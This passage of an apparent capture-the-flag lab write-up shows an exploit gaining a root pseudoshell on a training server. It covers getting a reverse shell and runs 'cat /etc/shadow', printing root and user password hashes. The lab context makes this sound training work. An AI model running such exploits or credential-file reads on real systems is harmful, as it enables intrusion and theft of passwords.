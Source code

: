 ```
←[92m[+] Connected to https://10.200.193.200:10000/ successfully.←[0m
←[92m[+] Server version (1.890) should be vulnerable!←[0m
←[92m[+] Benign Payload executed!←[0m

←[92m[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.←[0m
←[34m[*] Type 'exit' to exit.←[0m
←[34m[*] Type 'shell' to obtain a full reverse shell (UNIX only).←[0m

# root
sh: root: command not found
# whoami
root

```

3. **Success! We won't need to escalate privileges here, so we can move on to the next step in the exploitation process.**

**Before we do though: nice though this pseudoshell is, it's not a full reverse shell.**

**Get a reverse shell from the target. You can either do this manually, or by typing shell into the pseudoshell and following the instructions given.**

- **_No Answer Needed._**

4. **Optional: Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).**

- **_No Answer Needed._**

5. **Now for a little post-exploitation!**

**What is the root user's password hash?**

- **_$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1_**

```
# cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18573::::::
systemd-coredump:!!:18573::::::
systemd-resolve:!!:18573::::::
tss:!!:18573::::::
polkitd:!!:18573::::::
libstoragemgmt:!!:18573::::::
cockpit-ws:!!:18573::::::
cockpit-wsinstance:!!:18573::::::
sssd:!!:18573::::::
sshd:!!:18573::::::
chrony:!!:18573::::::
rngd:!!:18573::::::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```